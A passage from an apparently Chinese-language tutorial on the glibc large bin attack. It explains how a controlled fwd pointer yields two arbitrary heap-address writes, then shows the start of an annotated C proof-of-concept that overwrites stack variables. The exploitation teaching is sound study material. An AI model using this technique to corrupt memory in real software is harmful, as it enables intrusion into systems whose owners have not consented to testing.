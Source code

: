 而这个过程中,我们的fwd是可控的,而又因为我们的fwd可控,也就意味着我们的fwd-&gt;bk_nextsize可控,bck可控

因此我们在这个过程中就有两次任意地址写堆地址的能力

第一次在victim-&gt;bk_nextsize也就是victim+4的地方

第二次在victim-&gt;bk=bck=fwd-&gt;bk的地方,也就是victim+2的地方

这两个地方可以写入fwd-&gt;bk_nextsize和fwd-&gt;bk

### <a class="reference-link" name="%E6%BA%90%E4%BB%A3%E7%A0%81"></a>源代码

这里我就一行也不删了,直接在上面加了一小点注释

如果想了解large bin的话,可以去源代码给出的链接中看看

```
/*
    This technique is taken from
    https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/
    [...]
              else
              `{`
                  victim-&gt;fd_nextsize = fwd;
                  victim-&gt;bk_nextsize = fwd-&gt;bk_nextsize;
                  fwd-&gt;bk_nextsize = victim;
                  victim-&gt;bk_nextsize-&gt;fd_nextsize = victim;
              `}`
              bck = fwd-&gt;bk;
    [...]
    mark_bin (av, victim_index);
    victim-&gt;bk = bck;
    victim-&gt;fd = fwd;
    fwd-&gt;bk = victim;
    bck-&gt;fd = victim;
    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.
    [...]
 */

#include&lt;stdio.h&gt;
#include&lt;stdlib.h&gt;

int main()
`{`
    //本例以通过写一个大的无符号long型数值进入栈来演示large bin attack
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stackn");
    //在实际中,large bin attack也常常被用于更深层次的攻击,如覆写global_max_fast来为fastbin attack打辅助(为什么有一种看到了unsorted bin attack的错觉2333
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
           "global variable global_max_fast in libc for further fastbin attacknn");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    //我们要在栈上覆写的是stack_var1和stack_var2
    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:n");
    fprintf(stderr, "stack_var1 (%p): %ldn", &amp;stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ldnn", &amp;stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    //现在我们有了第一个large chunk
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %pn", p1 - 2);

```